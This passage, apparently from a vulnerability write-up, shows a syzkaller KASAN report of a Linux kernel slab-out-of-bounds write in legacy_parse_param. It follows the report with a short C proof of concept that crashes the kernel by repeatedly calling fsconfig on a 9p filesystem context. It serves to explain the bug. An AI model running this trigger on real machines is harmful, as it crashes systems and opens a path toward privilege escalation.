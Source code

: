 BUG: KASAN: slab-out-of-bounds in legacy_parse_param+0x450/0x640 fs/fs_context.c:569 Write of size 1 at addr ffff88802d7d9000 by task syz-executor.12/386100 CPU: 3 PID: 386100 Comm: syz-executor.12 Not tainted 5.14.0 #1 Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014 Call Trace: __dump_stack lib/dump_stack.c:88 [inline] dump_stack_lvl+0x4d/0x66 lib/dump_stack.c:105 print_address_description.constprop.0+0x21/0x140 mm/kasan/report.c:233 __kasan_report mm/kasan/report.c:419 [inline] kasan_report.cold+0x7f/0x11b mm/kasan/report.c:436 legacy_parse_param+0x450/0x640 fs/fs_context.c:569 vfs_parse_fs_param+0x1fd/0x390 fs/fs_context.c:146 vfs_fsconfig_locked+0x177/0x340 fs/fsopen.c:265 __do_sys_fsconfig fs/fsopen.c:439 [inline] __se_sys_fsconfig fs/fsopen.c:314 [inline] __x64_sys_fsconfig+0x6a6/0x7a0 fs/fsopen.c:314 do_syscall_x64 arch/x86/entry/common.c:50 [inline] do_syscall_64+0x3b/0x90 arch/x86/entry/common.c:80 entry_SYSCALL_64_after_hwframe+0x44/0xae RIP: 0033:0x7fe8eeb7489d Code: 02 b8 ff ff ff ff c3 66 0f 1f 44 00 00 f3 0f 1e fa 48 89 f8 48 89 f7 48 89 d6 48 89 ca 4d 89 c2 4d 89 c8 4c 8b 4c 24 08 0f 05 <48> 3d 01 f0 ff ff 73 01 c3 48 c7 c1 bc ff ff ff f7 d8 64 89 01 48 RSP: 002b:00007fe8edcc5c28 EFLAGS: 00000246 ORIG_RAX: 00000000000001af RAX: ffffffffffffffda RBX: 00007fe8eec94030 RCX: 00007fe8eeb7489d RDX: 0000000020000040 RSI: 0000000000000001 RDI: 0000000000000003 RBP: 00007fe8eebe100d R08: 0000000000000000 R09: 0000000000000000 R10: 0000000020000800 R11: 0000000000000246 R12: 0000000000000000 R13: 00007ffd8112faef R14: 00007fe8eec94030 R15: 00007fe8edcc5dc0 Allocated by task 386092: kasan_save_stack+0x1b/0x40 mm/kasan/common.c:38 kasan_set_track mm/kasan/common.c:46 [inline] set_alloc_info mm/kasan/common.c:434 [inline] ____kasan_kmalloc mm/kasan/common.c:513 [inline] __kasan_kmalloc+0x7c/0x90 mm/kasan/common.c:522 kmalloc include/linux/slab.h:591 [inline] legacy_parse_param+0x3e2/0x640 fs/fs_context.c:559 vfs_parse_fs_param+0x1fd/0x390 fs/fs_context.c:146 vfs_fsconfig_locked+0x177/0x340 fs/fsopen.c:265 __do_sys_fsconfig fs/fsopen.c:439 [inline] __se_sys_fsconfig fs/fsopen.c:314 [inline] __x64_sys_fsconfig+0x6a6/0x7a0 fs/fsopen.c:314 do_syscall_x64 arch/x86/entry/common.c:50 [inline] do_syscall_64+0x3b/0x90 arch/x86/entry/common.c:80 entry_SYSCALL_64_after_hwframe+0x44/0xae netlink: 68 bytes leftover after parsing attributes in process `syz-executor.13'. netlink: 68 bytes leftover after parsing attributes in process `syz-executor.13'. netlink: 68 bytes leftover after parsing attributes in process `syz-executor.13'. netlink: 68 bytes leftover after parsing attributes in process `syz-executor.13'. autofs4:pid:386120:autofs_fill_super: called with bogus options autofs4:pid:386117:autofs_fill_super: called with bogus options The buggy address belongs to the object at ffff88802d7d8000 which belongs to the cache kmalloc-4k of size 4096 The buggy address is located 0 bytes to the right of 4096-byte region [ffff88802d7d8000, ffff88802d7d9000) The buggy address belongs to the page: page:000000006784204d refcount:1 mapcount:0 mapping:0000000000000000 index:0x0 pfn:0x2d7d8 head:000000006784204d order:3 compound_mapcount:0 compound_pincount:0 flags: 0x100000000010200(slab|head|node=0|zone=1) raw: 0100000000010200 0000000000000000 0000000200000001 ffff888100043040 raw: 0000000000000000 0000000000040004 00000001ffffffff 0000000000000000 page dumped because: kasan: bad access detected Memory state around the buggy address: ffff88802d7d8f00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ffff88802d7d8f80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 >ffff88802d7d9000: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc ^ ffff88802d7d9080: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc ffff88802d7d9100: fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc fc

Fiddling around a bit with the C repro, we found the following snippet could trigger a crash reliably:

#define _GNU_SOURCE #include <sys/syscall.h> #include <stdio.h> #include <stdlib.h> #ifndef __NR_fsconfig #define __NR_fsconfig 431 #endif #ifndef __NR_fsopen #define __NR_fsopen 430 #endif #define FSCONFIG_SET_STRING 1 #define fsopen(name, flags) syscall(__NR_fsopen, name, flags) #define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux) int main(void) { char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; int fd = 0; fd = fsopen("9p", 0); if (fd < 0) { puts("Opening"); exit(-1); } for (int i = 0; i < 5000; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", val, 0); } return 0; }

Now, what exactly is causing the overflow? First of all, what is this `fsconfig` syscall? According to the [patch](https://patchwork.kernel.org/project/linux-fsdevel/patch/153313723557.13253.9055982745313603422.stgit@warthog.procyon.org.uk/) that brought it in:
